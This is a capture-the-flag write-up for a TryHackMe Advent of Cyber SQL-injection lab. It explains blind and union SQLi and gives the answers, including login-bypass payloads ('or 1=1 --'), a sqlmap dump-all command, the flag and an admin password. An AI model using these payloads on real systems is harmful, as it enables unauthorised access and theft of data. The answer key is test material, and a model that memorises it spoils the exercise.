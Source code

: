 # Day 5 - Someone stole Santa's gift list!

**Date:** 05, December, 2020

**Author:** Dhilip Sanjay S

---
## Fundamentals
- SQLi
1. Blind SQLi
    - Developers mitigate SQL Injection by restricting an application from displaying any error.
    - You can cause some observable changes using SLEEP(), SUBSTR() function, etc.
    - Error = 'No', No Error = 'Yes'

2. Union SQLi
    - Used for fast database enumeration
    - 3 steps:
        - Finding the number of columns: `ORDER BY/ UNION SELECT`
        - Checking if the columns are suitable: Replace with string in `UNION SELECT`
        - Attack and get some interesting data.

- Use [SQLMAP](https://github.com/sqlmapproject/sqlmap)
---
## Solutions
### Without using directory brute forcing, what's Santa's secret login panel?
- **Answer:** /santapanel
---

### Visit Santa's secret login panel and bypass the login using SQLi
- **Payload:** `abc' or 1=1 --`
- Alternatively, run **SQLMAP (1.2.4)** command:
```bash
sqlmap -r request-file --tamper=space2comment --dump-all
```
--- 

### How many entries are there in the gift database?
- **Answer:** 22
- **Steps to reproduce:** 
    - SQLMAP show all the entries in the table or use the payload below
    - **Payload:** `hi' or 1=1 --`
---

### What did Paul ask for?
- **Answer:** Github Ownership
- Check the table.
---

### What is the flag?
- **Answer:** thmfox{All_I_Want_for_Christmas_Is_You}
---

## What is admin's password?
- **Answer:** EhCNSWzzFP6sc7gB
---

[Back to Advent of Cyber 2](/TryHackMe/Advent%20of%20Cyber%202) 